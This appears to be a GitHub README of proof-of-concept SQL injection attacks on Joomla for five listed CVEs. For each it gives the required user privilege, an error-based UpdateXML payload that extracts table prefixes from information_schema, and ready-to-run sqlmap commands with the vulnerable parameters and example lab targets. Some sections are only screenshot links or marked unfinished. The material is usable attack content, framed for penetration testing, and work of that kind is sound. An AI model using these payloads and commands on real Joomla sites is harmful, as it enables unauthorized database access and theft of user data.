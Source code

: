 # Joomla-SQLinjection PoC

1. CVE-2020-10243

2. CVE-2019-19846

3. CVE-2018-8045

4. CVE-2018-6376

5. CVE-2017-8917

# Payload to detect prefix table
## Step 1: Get hexa value
*UpdateXML(2, concat(0x3a,(SELECT HEX(MID(TABLE_NAME,1,16)) FROM information_schema.tables WHERE TABLE_NAME LIKE 0x257573657273 LIMIT 1,1), 0x3a), 1)*
## Step 2: Convert hexa to ASCII
+) Linux command: echo "hexa value" | xxd -r -p

+) Link: https://www.rapidtables.com/convert/number/hex-to-ascii.html

# 5. CVE-2017-8917
### User requirement: None
## Detecting:
![image](https://user-images.githubusercontent.com/24661746/77494259-ddd35680-6e77-11ea-8331-106c89b48f7c.png)
## Sqlmap:
sqlmap -u "[your taget]/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=*" --dbms=mysql --technique=E --dbs
## Example
sqlmap -u "http://192.168.119.128/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=*" --dbms=mysql --technique=E --dbs
# 4. CVE-2018-6376
### User requirement: Manager (Lowest level)
## Detecting:
![image](https://user-images.githubusercontent.com/24661746/77607304-73d8b100-6f4c-11ea-9c6b-72a56c55efda.png)

### Second-url:

![image](https://user-images.githubusercontent.com/24661746/77607359-a7b3d680-6f4c-11ea-9f66-78b24b5ee895.png)

## 3. CVE-2018-8045
### User requirement: Administrator
## Detecting:
![image](https://user-images.githubusercontent.com/24661746/77608547-25c5ac80-6f50-11ea-9495-b13b00448d1c.png)
## 2. CVE-2019-19846
### User requirement: Super Users
## Detecting:
...Update later-...
## 1. CVE-2020-10243: SQL injection in Featured Articles menu parameters
# Author : Sam Thomas, Pentest.co.uk
# PoC by : Hoang Kien
## User requirement: admin (Not superadmin)
## Type: Second Order SQL Injection
## Detecting:
![image](https://user-images.githubusercontent.com/24661746/78954200-8d115e00-7b05-11ea-8cd1-0d605fff4101.png)
## Second-url:
![image](https://user-images.githubusercontent.com/24661746/78954286-d2ce2680-7b05-11ea-9ffb-ec1263618056.png)

## Exploit as video:
https://vimeo.com/398763205
## Sqlmap:
 *sqlmap -r sqli.joomla.req --level=5 --risk=3 -p "jform%5Bparams%5D%5Bfeatured_categories%5D%5B%5D" --dbms=mysql --second-url "[your domain/IP]/index.php" --technique=E --dbs*
## Example:
sqlmap -r sqli.joomla.req --level=5 --risk=3 -p "jform%5Bparams%5D%5Bfeatured_categories%5D%5B%5D" --dbms=mysql --second-url "http://192.168.131.134:8080/index.php" --technique=E --dbs

Reference:
1. https://pentest.co.uk/labs/advisory/cve-2020-10243/
2. https://xz.aliyun.com/t/6990
3. https://github.com/luckybool1020/CVE-2018-8045
4. https://www.notsosecure.com/analyzing-cve-2018-6376/
5. https://github.com/gottburgm/Exploits/tree/master/CVE-2017-8917
